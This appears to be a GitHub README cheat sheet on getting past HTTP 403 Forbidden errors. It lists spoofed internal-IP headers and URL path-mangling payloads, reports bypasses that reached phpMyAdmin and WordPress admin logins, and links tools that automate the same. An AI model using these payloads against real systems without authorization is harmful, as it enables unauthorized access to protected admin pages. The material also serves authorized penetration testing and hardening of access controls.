




# Bypass 403 - Forbidden :no_entry:

- **Introduction**

Depending on the configuration made by the infrastructure analyst, there are some ways to get past the 403-forbidden error generally by configuring when you should not be allowed to access certain resources of that directory or file.

I created this quick document to demonstrate some techniques for this, including, I already used it and managed to pass the **403 error** and access database administrative login pages.

  

## Some techniques :page_facing_up:

 #### Attention :bangbang:

Before using the techniques below, it is worth changing the HTTP methods for each attempt, such as GET, POST, PATCH, OPTIONS, TRACE...

1. Method ***HTTP Headers Fuzzing***

In some cases, access to pages and private files can be done by changing the ***Header*** of the request and including an internal address, here are some examples;

- X-ProxyUser-Ip: 127.0.0.1
- Client-IP: 127.0.0.1
- Host: localhost
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Real-IP: 127.0.0.1

2. Method ***Path Fuzzing***

We can try to make some changes to the url, using special characters or including HTML encoding, exemples;

- test.com/admin/*
- test.com/*admin/
- test.com/%2fadmin/
- test.com%2fadmin%2f
- test.com/./admin/
- test.com//admin/./
- test.com///admin///
- test.com//admin//
- test.com/ADMIN/
- test.com/;/admin/
- test.com//;//admin/

## Real example 1 of Bypass

The example below is a bypass used in the phpmyadmin console, configured to be accessed only with specific IP x.x.x.x the context /phpmyadmin/

I made some attempts changing the context, example;

- /phpmyadmin/*
- /./phpmyadmin/
- //phpmyadmin//
- /*/phpmyadmin/

  

However, without success :(

After a few attempts to pass the 403, I tried changing the context to;

- **///phpmyadmin///**

  

In this case using 3 slashes (///), we managed to pass the 403 error and access the phpmyadmin login page. :ok_hand:

## Real example 2 of Bypass

In this example, we access the wordpress login panel using, in this case, 2 slashes (//).

In this url, we couldn't use the same context with 3 slashes, however, we managed using another change in the context.

  

Using the context below
- **//wp-admin//**

  

 

## Tool Tip :white_check_mark:

Some developers who created some tools to facilitate the identification of possible pages that we managed to pass the 403 error. The github project below (***iamj0ker***) was tested and we were able to validate some prohibited entries.

[github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)

For those who use **Burpsuite Professional**, there is a plugin in the store to validate contexts with denied permissions, called **403 Bypasser**.

[403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

To find possible directories with 403 permissions, we can perform a bruteforce of directories and files using **Dirsearch**.

[Dirsearch](https://github.com/maurosoria/dirsearch)

